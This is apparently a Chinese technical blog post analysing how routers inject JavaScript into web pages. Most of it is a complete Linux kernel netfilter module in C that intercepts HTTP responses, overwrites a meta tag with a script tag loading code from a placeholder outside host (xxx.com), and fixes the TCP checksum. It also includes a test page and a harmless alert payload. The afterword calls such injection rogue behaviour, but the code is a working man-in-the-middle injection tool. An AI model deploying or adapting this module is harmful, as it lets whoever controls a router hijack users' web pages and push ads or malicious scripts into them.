

# js注入实现分析  

>　　我们的网页流量经常会被广告劫持，例如我在用联通网络手机上网时，给我弹出一个联通的流量悬浮球。它的实现就可以是js注入。这儿的js注入即修改用户的http数据包，加入自己的js超链接，js加载之后自动运行来满足一些需求。  

## 原理  

　　熟悉html的都会了解，在html页面的头信息里面有很多标签，但有的标签并不是必须的，我们可以修改它而基本不会影响页面显示。例如把`<meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1" />`修改为`<script src="test.js"></script>`，这里的修改实则是植入了js。  
　　拦截用户数据一般是放在路由器端来做，首先会有很多过滤条件，比如是不是http协议，是不是html数据，判断是否有可以修改的html标签，标签长度是否足够，然后修改数据重新计算checksum，完工。  

## 简易实现  

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>
#include <linux/tcp.h>
#include <linux/ip.h>
#include <linux/inet.h>
#include <linux/types.h>
#include <linux/string.h>
#include <net/sock.h>
#include <linux/netlink.h>
#include <linux/skbuff.h>
#include <linux/hash.h>
#include <linux/ctype.h>
#include <linux/time.h>

struct http_info
{
    int clen;   /* content length */
    int ctype;  /* content type */
};

static struct nf_hook_ops nfho;

#define IP_ADDR_LEN 6
#define printf printk

char *modify_data = "<script src=\"http://xxx.com/test.js\"></script>";

uint16_t ip_chksum(uint16_t initcksum, uint8_t *ptr, int len)
{
    unsigned int cksum;
    int idx;
    int odd;

    cksum = (unsigned int) initcksum;

    odd = len & 1;
    len -= odd;

    for (idx = 0; idx < len; idx += 2) {
        cksum += ((unsigned long) ptr[idx] << 8) + ((unsigned long) ptr[idx+1]);
    }

    if (odd) {      /* buffer is odd length */
        cksum += ((unsigned long) ptr[idx] << 8);
    }

    /*
     * Fold in the carries
     */

    while (cksum >> 16) {
        cksum = (cksum & 0xFFFF) + (cksum >> 16);
    }

    return cksum;
}

uint16_t tcp_chksum(uint16_t initcksum, uint8_t *tcphead, int tcplen , uint32_t *srcaddr, uint32_t *destaddr)
{
    uint8_t pseudoheader[12];
    uint16_t calccksum;
    
    memcpy(&pseudoheader[0],srcaddr,IP_ADDR_LEN);
    memcpy(&pseudoheader[4],destaddr,IP_ADDR_LEN);
    pseudoheader[8] = 0; /* 填充零 */
    pseudoheader[9] = IPPROTO_TCP;
    pseudoheader[10] = (tcplen >> 8) & 0xFF;
    pseudoheader[11] = (tcplen & 0xFF);
    
    calccksum = ip_chksum(0,pseudoheader,sizeof(pseudoheader));
    calccksum = ip_chksum(calccksum,tcphead,tcplen);
    calccksum = ~calccksum;
    return calccksum;
}

char *readline_from_buf(char *from, char *end, char *to, int to_len)
{
    int i = 0;

    memset(to, 0x0, to_len);

    for(i = 0; i < to_len && i < end - from; i++)
    {
        
        if(from[i] == '\r' && from[i + 1] == '\n')
        {
            if(i == 0)
            {
                return NULL;
            }
            memcpy(to, from, i);
            return from + i + 2;
        }
    }
    return NULL;
}

/* 不区分大小写的strstr */
char *strncasestr(char *str, char *sub, int n)
{
    if(!str || !sub)
        return NULL;

    int len = strlen(sub);
    if (len == 0)
    {
        return NULL;
    }

    while (*str && n--)
    {
        if (strncasecmp(str, sub, len) == 0)
        {
            return str;
        }
        ++str;
    }
    return NULL;
}


/* 判断http头是否是text/html类型 */
int is_text_type(char *head, int len)
{
    char *p = head; 
    char *end = head + len;
    char line[1024] = {0};
    
    while((p = readline_from_buf(p, end, line, sizeof(line))))
    {
        //printk("%s\n", line);
        if(!strncasecmp(line, "Content-type: text/html", strlen("Content-type: text/html")))
        {
            printk("########is ok############\n");
            return 1;
        }
    }

    return 0;
}

void print_nchar(char *s, int n)
{
    while(*s && n--)
        printf("%c", *s++);
    
    printf("\n");
}

/* 使用src字符串替换dest字符串内容，长度为dlen，不足的补空格 */
void replace_string(char *dest, char *src, int dlen)
{
    if(!dest || !src)
        return;

    while(*dest && *src && dlen--)
        *dest++ = *src++;

    if(dlen && *dest)
    {
        while(dlen--)
            *dest++ = ' ';
    }
}

/* 这个函数还有诸多问题，例如如果第一个meta标签长度不够，不会继续匹配其他meta标签 */
int modify_meta_mark(__u8 *tcpdata, int len)
{
    char *start = NULL, *end = NULL;
    
    start = strncasestr(tcpdata, "<meta", len);
    if(!start)
        return 0;

    end = strnchr(start, len - (start - (char *)tcpdata), '>');
    end++;

    print_nchar(start, end - start);

    if(end - start < strlen(modify_data))
        return 0;

    replace_string(start, modify_data, end - start);

    print_nchar(start, end - start);

    return 1;
}

void try_modify_http(struct iphdr * iph)
{
    struct tcphdr *tcph = (void*)iph + iph->ihl*4;
    __u8 *tcpdata = (void*)tcph + tcph->doff*4;
    int len = ntohs(iph->tot_len) - (iph->ihl*4) - (tcph->doff*4);
    __u16 orig_cksum = ntohs(tcph->check);
    __u16 new_cksum = 0;
    
    if(modify_meta_mark(tcpdata, len))
    {
        /* 先清零 */
        tcph->check = 0;
        new_cksum = tcp_chksum(0, tcph, len + tcph->doff*4, &iph->saddr, &iph->daddr);
        tcph->check = htons(new_cksum);
    }
    
}

void http_handle(struct iphdr *iph)
{
    struct tcphdr *tcph = (void*)iph + iph->ihl*4;
    __u8 *tcpdata = (void*)tcph + tcph->doff*4;
    int len = ntohs(iph->tot_len) - (iph->ihl*4) - (tcph->doff*4);

    if(len < 7 || memcmp(tcpdata, "HTTP/1.", 7))/* HTTP/1.1 */
        return;

    /* 如果不是text/html直接return */
    if(!is_text_type(tcpdata, len))
        return;

    try_modify_http(iph);
}


unsigned int hook_func(unsigned int hooknum,
                       struct sk_buff *skb,
                       const struct net_device *in,
                       const struct net_device *out,
                       int (*okfn)(struct sk_buff*))
{
    struct iphdr* iph = ip_hdr(skb);

    struct tcphdr *tcph;

    if (iph->protocol != IPPROTO_TCP) /* not TCP */
        return NF_ACCEPT;

    tcph = (void*)iph + iph->ihl*4;

    if(tcph->source == htons(80))
    {
        http_handle(iph);
        return NF_ACCEPT;
    }

    return NF_ACCEPT;
}


int init_module()
{
    printk("init module\n");
    
    nfho.hook = hook_func;
    nfho.hooknum = NF_INET_POST_ROUTING;
    nfho.pf = PF_INET;
    nfho.priority = NF_IP_PRI_FIRST;
    
    if(nf_register_hook(&nfho))
        printk("register hook failed\n");
    else
        printk("register hook successed\n");


    return 0;
}

void cleanup_module()
{
    printk("exit module\n");
}

```  
web服务器的页面代码  
```html
<!DOCTYPE html>
<html lang="zh-cn">
<head>
<meta name="description" content="苏宁易购-综合网上购物平台，商品涵盖家电、手机、电脑、超市、母婴、服装、百货、海外购等品类。送货更准时、价格更超值、上新货更快，正品行货、全国联保、可门店自提，全网更低价，让您放心去喜欢！" />
<meta charset="utf-8">
<link rel="shortcut icon" href="//ssl.suning.com/favicon.ico" type="image/x-icon">
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<meta name="keywords" content="苏宁易购网上商城,苏宁电器,Suning,手机,电脑,冰箱,洗衣机,相机,数码,家居用品,鞋帽,化妆品,母婴用品,图书,食品,正品行货"/>
<title>苏宁易购(Suning.com)-送货更准时、价格更超值、上新货更快</title>
<meta name="apple-itunes-app" content="app-id=537508092">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta property="wb:webmaster" content="3addc532fa0c656e" />
<meta property="qc:admins" content="165746643563561676375" />
<meta name="baidu-site-verification" content="x0HfZwVU6x" />
</head>

<body>
    <h1>  test </h1>
</body>
```  
js注入的js文件代码  
```js
window.onload = function(){
    alert("test");
}
```  

　　当我访问被测试页面时，会弹出一个test对话框。这是一个比较简单的实现，可以通过加大html标签修改范围来增大注入成功几率。  

## 效果  
访问测试服务器，页面加载的时候会弹出test窗口，表示js注入成功。  
  


## 后记  
不管出发点如何，js注入大多都是一个流氓行为。尤记得一次朋友跟我说，它的电脑在上网时，有时会弹出广告，很烦人，问我有什么办法没。我听了这个描述也不知道具体原因，建议他换个浏览器试试。最后他换了浏览器，重装系统都没解决，最后找修电脑的人来，修电脑的也不知道什么情况，但偶然发现修电脑的人的笔记本也会弹广告。于是乎知道了原因：上级路由器有问题。-_- !!  

